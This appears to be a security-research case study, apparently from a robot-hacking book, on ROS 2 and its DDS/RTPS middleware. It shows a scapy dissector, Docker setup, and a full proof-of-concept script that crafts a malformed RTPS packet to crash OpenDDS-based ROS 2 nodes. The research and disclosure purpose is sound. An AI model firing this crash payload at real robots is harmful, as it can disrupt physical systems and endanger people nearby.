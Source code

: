 \newpage

## Robot Operating System (ROS) 2

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS 2[^1] and demonstrate how flaws on both ROS 2 layer or its underlayers lead to the system being compromised.

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.

### Dissecting ROS 2 network interactions

To hack ROS 2, we'll be using a network dissector of the underlying default  communication middleware that ROS 2 uses: DDS. DDS stands for Data Distribution Service and is a middleware technology used in critical applications like autonomous driving, industrial and consumer robotics, healthcare machinery or  military tactical systems, among others.

In collaboration with other researchers, we built a DDS (more specifically, a Real-Time Publish Subscribe (RTPS) protocol) dissector to tinker with the ROS 2 communications. For a stable (known to work for the PoCs presented below) branch of the dissector, refer to [https://github.com/vmayoral/scapy/tree/rtps](https://github.com/vmayoral/scapy/tree/rtps) or alternatively, refer to the [official Pull Request we sent to scapy](https://github.com/secdev/scapy/pull/3403) for upstream integration.

The package dissector allows to both dissect and craft, which will be helpful while checking the resilience of ROS 2 communications. E.g., the following Python piece shows how to craft a simple empty RTPS package that will interoperate with ROS 2 Nodes:

![](../../images/2021/rtps_simple.png)

![A simple empty RTPS package](images/2021/rtps_simple.pdf)

```python
rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)
```



Let's get started by dockerizing an arbitrary targeted ROS 2 system.

### Dockerizing the target environment
ROS 2 is nicely integrated with Docker, which simplifies creating a hacking development environment. Let's build on top of the default ROS 2 containers and produce two targets for the latest LTS ROS 2 release: ROS 2 Foxy (latest LTS)

#### Build for Foxy from source and run

```bash
# Build may take a while depending on your machine specs
docker build -t hacking_ros2:foxy --build-arg DISTRO=foxy .
```

#### Run headless
```bash
# Launch container
docker run -it hacking_ros2:foxy /bin/bash

# Now test the dissector
cat << EOF > /tmp/rtps_test.py
from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0

rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)

hexdump(rtps_package)
rtps_package.show()
EOF

python3 /tmp/rtps_test.py
0000  52 54 50 53 02 04 01 03 01 03 02 42 AC 11 00 02  RTPS.......B....
0010  45 E5 E2 FD                                      E...
###[ RTPS Header ]###
  magic     = 'RTPS'
  \protocolVersion\
   |###[ RTPS Protocol Version ]###
   |  major     = 2
   |  minor     = 4
  \vendorId  \
   |###[ RTPS Vendor ID ]###
   |  vendor_id = Object Computing Incorporated, Inc. (OCI) - OpenDDS
  \guidPrefix\
   |###[ RTPS GUID Prefix ]###
   |  hostId    = 0x1030242
   |  appId     = 0xac110002
   |  instanceId= 0x45e5e2fd
```

#### Run, using X11
```bash
xhost + # (careful with this! use your IP instead if possible)
docker run -it -v /tmp/.X11-unix:/tmp/.X11-unix -e DISPLAY=$DISPLAY -v $HOME/.Xauthority:/home/xilinx/.Xauthority hacking_ros2:foxy
```

### Crashing ROS 2 Nodes

```python
"""
A simple python script to crash ROS 2 communication on top of OpenDDS
"""

from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0


dst = "172.17.0.2"
sport = 17900
dport = 7410

# # crash OpenDDS publisher prior to v3.18
opendds_crasher = (
    IP(
        version=4,
        ihl=5,
        tos=0,
        len=82,
        flags=2,
        frag=0,
        ttl=64,
        proto=17,
        dst=dst,
    )
    / UDP(sport=sport, dport=dport, len=62)
    / RTPS(
        protocolVersion=ProtocolVersionPacket(major=2, minor=4),
        vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
        guidPrefix=GUIDPrefixPacket(
            hostId=16974402, appId=2886795266, instanceId=1172693757
        ),
        magic=b"RTPS",
    )
    / RTPSMessage(
        submessages=[
            RTPSSubMessage_DATA(
                submessageId=21,
                submessageFlags=5,
                octetsToNextHeader=0,
                extraFlags=0,
                octetsToInlineQoS=16,
                readerEntityIdKey=0,
                readerEntityIdKind=0,
                writerEntityIdKey=256,
                writerEntityIdKind=194,
                writerSeqNumHi=0,
                writerSeqNumLow=2,
                data=DataPacket(
                    encapsulationKind=3,
                    encapsulationOptions=0,
                    parameterList=ParameterListPacket(
                        parameterValues=[
                            PID_BUILTIN_ENDPOINT_QOS(
                                parameterId=119, parameterLength=0, parameterData=b""
                            ),
                            PID_PAD(parameterId=b"\x00\x00"),
                        ]
                    ),
                ),
            )
        ]
    )
)

#### Run setup (inside container)
```bash
byobu -f configs/poc.conf attach
```



### Credit
This research is the result of a cooperation among various security researchers. The following individuals too part on it:
